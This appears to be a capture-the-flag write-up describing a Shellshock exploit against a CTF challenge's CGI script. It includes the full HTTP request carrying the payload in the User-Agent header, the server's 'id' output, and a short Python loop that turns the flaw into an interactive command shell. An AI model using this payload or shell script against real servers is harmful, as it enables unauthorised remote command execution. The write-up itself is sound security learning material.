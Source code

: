 we can see that https://stt.uctf.ir/cgi-bin/uptime.sh is being included in the main page with a iframe.

now the first thing that came to my mind is try shellshock as it is probably the most popular exploit for folder cgi-bin

here's an in depth explanation of the exploit
https://securityintelligence.com/articles/shellshock-vulnerability-in-depth/

luckily it worked first attempt


**request
```
GET /cgi-bin/uptime.sh HTTP/2
Host: stt.uctf.ir
Pragma: no-cache
Cache-Control: no-cache
Sec-Ch-Ua: "Chromium";v="116", "Not)A;Brand";v="24", "Google Chrome";v="116"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: () { : ; }; echo; echo; /usr/bin/id
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7
Content-Length: 0
```


**response

```
HTTP/2 200 OK
Date: Mon, 04 Sep 2023 20:54:12 GMT
X-Xss-Protection: 1; mode=block
Server: ArvanCloud
X-Sid: 4103
Server-Timing: total;dur=174
X-Cache: BYPASS
X-Request-Id: 6bdb55363dfc11ba01860b3a1e357bc3


uid=65534(nobody) gid=65534(nobody)
```

now as i was with my phone and not on my pc i had to do it with curl (very painful)

so i wrote a mini script

```python
import requests as r

while True:
  a = input("sh$ ")
  headers = {"User-Agent":"() {{ :; }}; echo; echo; /bin/busybox {} 2>&1".format(a)}
  out = r.get("https://stt.uctf.ir/cgi-bin/uptime.sh", headers=headers, verify=False)
  print(out.text)
```

